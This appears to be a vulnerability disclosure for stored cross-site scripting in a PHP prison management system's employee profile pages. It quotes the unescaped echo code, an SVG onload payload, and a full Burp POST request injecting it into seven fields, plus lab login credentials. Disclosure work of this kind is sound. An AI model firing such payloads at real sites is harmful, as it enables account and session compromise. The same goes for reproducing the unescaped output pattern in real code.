







# Prison Management System
## XSS on `/Employee/edit-profile.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Account/Login.php
releaseme@gmail.com
escobar2012
```

### Affected Page:

```
/Employee/edit-profile.php、/Employee/profile.php
```

The parameter `txtfullname` 、`txtdob` 、`txtaddress`、`txtqualification`、`cmddept`、`cmdemployeetype`、`txtappointment`are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Employee/edit-profile.php

# txtfullname
150 <input type="text" size="77" name="txtfullname" value="<?php echo $row['fullname'];   ?>" class="form-control" required="">

# txtdob
168 <input type="text" size="77" name="txtdob" value="<?php echo $row['dob'];   ?>" class="form-control">

# txtaddress
173 <input type="text" size="77" name="txtaddress" value="<?php echo $row['address'];   ?>" class="form-control">

# txtqualification
177 <input type="text" size="77" name="txtqualification" value="<?php echo $row['qualification'];   ?>" class="form-control">

# cmddept
180 <select name="cmddept" id="cmddept" class="form-control" required="">
181 <option value="<?php echo $row['dept'];   ?>"><?php echo $row['dept'];   ?></option>
182 <option value="Security">Security</option>
183 <option value="Bursary">Bursary</option>
184 <option value="Student Affairs">Student Affairs</option>
185 <option value="Clinic">Clinic</option>
186 <option value="ICT">ICT</option>
187 <option value="Admin">Admin</option>
188 <option value="Science & Technology">Science & Technology</option>
189 <option value="Management Technolgy">Management Technolgy</option>
190 <option value="Engineering Technology">Engineering Technology</option>
191 </select>

# cmdemployeetype
195 <select name="cmdemployeetype" id="cmdemployeetype" class="form-control" required="">
196 <option value="<?php echo $row['employee_type'];   ?>"><?php echo $row['employee_type'];   ?></option>
197 <option value="Academic">Academic</option>
198 <option value="Non-Academic">Non-Academic</option>
199 </select>

# txtappointment
203 <input type="text" size="77" name="txtappointment" value="<?php echo $row['date_appointment'];   ?>" class="form-control">
```

```php
# /Employee/profile.php

# txtfullname
134 <strong>Fullname :</strong> <?php echo $rowaccess['fullname'];?> <br>

# txtdob
161 <strong>Date of Birth :</strong> <?php echo $rowaccess['dob'];?>  <br>

# txtaddress
184 <strong>Address :</strong> <?php echo $rowaccess['address'];?>  <br>

# txtqualification
192 <strong>Qualification :</strong> <?php echo $rowaccess['qualification'];?>  <br>

# cmddept
200 <strong>Department :</strong> <?php echo $rowaccess['dept'];?>  <br>

# cmdemployeetype
217 <strong>Employee Type :</strong> <?php echo $rowaccess['employee_type'];?>  <br>

# txtappointment
208 <strong>Date Appointment :</strong> <?php echo $rowaccess['date_appointment'];?>  <br>
```

### Proof of Concept:

Payload:

```
<svg/onload=alert``>
```

Burp Request:

```
POST /Employee/edit-profile.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 317
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/edit-profile.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=90379e534d51402f246c8b8c9ff11b59
Connection: close

txtfullname=<svg/onload=alert`1`>&cmdsex=less_10&txtphone=less_12&txtdob=<svg/onload=alert`2`>&txtaddress=<svg/onload=alert`3`>&txtqualification=<svg/onload=alert`4`>&cmddept=<svg/onload=alert`5`>&cmdemployeetype=<svg/onload=alert`6`>&txtappointment=<svg/onload=alert``>&txtbasic_salary=num&txtgross_pay=num&btnedit=1
```

### Screenshot














<<<<<<< HEAD

=======
>>>>>>> 83bbb05f0bf2b9041863225635e09becd55493cd
